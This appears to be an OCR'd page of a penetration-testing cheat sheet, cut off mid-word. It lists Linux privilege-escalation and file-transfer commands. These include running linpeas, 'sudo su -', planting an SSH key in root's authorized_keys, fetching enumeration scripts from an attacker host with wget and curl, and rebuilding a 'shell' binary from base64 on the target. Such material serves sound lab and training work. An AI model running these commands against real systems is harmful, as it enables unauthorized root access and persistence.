 `./linpeas.sh`

Run  `linpeas`  script to enumerate remote server

`sudo -l`

List available  `sudo`  privileges

`sudo -u user /bin/echo Hello World!`

Run a command with  `sudo`

`sudo su -`

Switch to root user (if we have access to  `sudo su`)

`sudo su user -`

Switch to a user (if we have access to  `sudo su`)

`ssh-keygen -f key`

Create a new SSH key

`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys`

Add the generated public key to the user

`ssh  root@10.10.10.10  -i key`

SSH to the server with the generated private key

**Transferring Files**

`python3 -m http.server 8000`

Start a local webserver

`wget http://10.10.14.1:8000/linpeas.sh`

Download a file on the remote server from our local machine

`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh`

Download a file on the remote server from our local machine

`scp linenum.sh user@remotehost:/tmp/linenum.sh`

Transfer a file to the remote server with  `scp`  (requires SSH access)

`base64 shell -w 0`

Convert a file to  `base64`

`echo f0VMR...SNIO...InmDwU | base64 -d > shell`

Convert a file from  `base64`  back to its orig

`md5sum shell`

Check the file's  `md5sum`  to ensure it converted correctly

